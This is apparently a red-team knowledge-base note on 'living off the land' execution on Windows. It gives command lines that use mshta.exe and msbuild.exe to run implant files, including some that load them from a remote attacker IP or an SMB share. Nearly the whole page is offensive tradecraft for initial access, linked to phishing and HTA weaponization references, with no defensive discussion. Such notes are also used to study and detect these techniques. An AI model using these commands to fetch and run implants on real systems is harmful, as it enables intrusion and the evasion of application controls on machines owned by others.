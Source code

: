 # Living off the Land

## 01 - MSHTA

```
C:\> mshta.exe %CD%\implant.hta

C:\> mshta.exe <drive_letter>:\absolute\path\to\implant.hta

C:\> mshta.exe http[s]://<IP>/implant.hta
```

## 02 - MSBuild

Execute C# project implants.

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\implant.csproj

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attacker_IP>\implant.xml
```

---
## References

### Backlinks

- [[DotNET Execution|Code Execution: MSBuild]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Windows/Code Execution/HTA]]

### Sevagas

- [Sevagas: Hacking around HTA files](https://blog.sevagas.com/?Hacking-around-HTA-files)

### DMCXBlue

- [DMCXBlue: HTA](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-infrastructure/weaponization/hta)

- [DMCXBlue: Links - HTA Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-link/links-hta-files)